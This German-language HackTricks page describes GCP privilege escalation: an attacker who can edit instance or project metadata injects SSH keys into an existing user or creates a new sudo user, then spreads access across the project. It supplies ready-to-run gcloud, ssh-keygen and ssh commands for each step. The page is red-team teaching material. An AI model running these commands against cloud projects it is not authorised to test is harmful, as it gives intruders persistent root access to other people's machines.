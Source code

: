 # GCP - Hinzufügen von benutzerdefinierten SSH-Metadaten

{% hint style="success" %}
Lernen Sie und üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## Ändern der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Änderung von Metadaten auf einer Instanz kann zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

### **Integration von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux-Gastumgebung für Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein wichtiger Bestandteil davon ist der [Accounts-Daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Aktualisierungen der autorisierten SSH-Public Keys** zu überprüfen.

Daher könnte ein Angreifer, der benutzerdefinierte Metadaten ändern kann, den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und in das lokale System **integriert wird**. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise einen neuen Benutzer mit `sudo`-Berechtigungen erstellen**, abhängig vom Format des Schlüssels. Der Angreifer wird dann in der Lage sein, den Host zu kompromittieren.

### **SSH-Schlüssel zu vorhandenem privilegierten Benutzer hinzufügen**

1. **Existierende SSH-Schlüssel auf der Instanz überprüfen:**
- Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben und vorhandene SSH-Schlüssel zu lokalisieren. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell unter dem Schlüssel `ssh-keys`.
```bash
gcloud compute instances describe [INSTANZ] --zone [ZONE]
```
- Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername geht dem Schlüssel voraus, getrennt durch einen Doppelpunkt.

2. **Textdatei für SSH-Schlüsselmetadaten vorbereiten:**
- Speichern Sie die Details von Benutzernamen und ihren entsprechenden SSH-Schlüsseln in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten und neue hinzuzufügen.

3. **Einen neuen SSH-Schlüssel für den Zielbenutzer generieren (`alice` in diesem Beispiel):**
- Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei darauf geachtet wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, wobei das Format aus den Metadaten der Instanz nachgeahmt wird.

4. **Aktualisieren der SSH-Schlüsselmetadaten der Instanz:**
- Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz mit dem Befehl `gcloud compute instances add-metadata` an.
```bash
gcloud compute instances add-metadata [INSTANZ] --metadata-from-file ssh-keys=meta.txt
```

5. **Zugriff auf die Instanz mit dem neuen SSH-Schlüssel:**
- Verbinden Sie sich mit SSH mit dem neuen Schlüssel mit der Instanz und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Einen neuen privilegierten Benutzer erstellen und einen SSH-Schlüssel hinzufügen**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Berechtigungen erteilt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den SSH-Zugriff auf mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet** werden. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht explizit die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
- Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel auf allen VMs im Projekt erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH auf Instanzen mit projektweiten Schlüsseln durchführen:**
- Mit projektweiten SSH-Schlüsseln können Sie auf jede Instanz innerhalb des Projekts zugreifen. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
- Eine direkte Methode, um sich bei einer Instanz anzumelden, ist die Verwendung des Befehls `gcloud compute ssh [INSTANZ]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.


# Referenzen
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

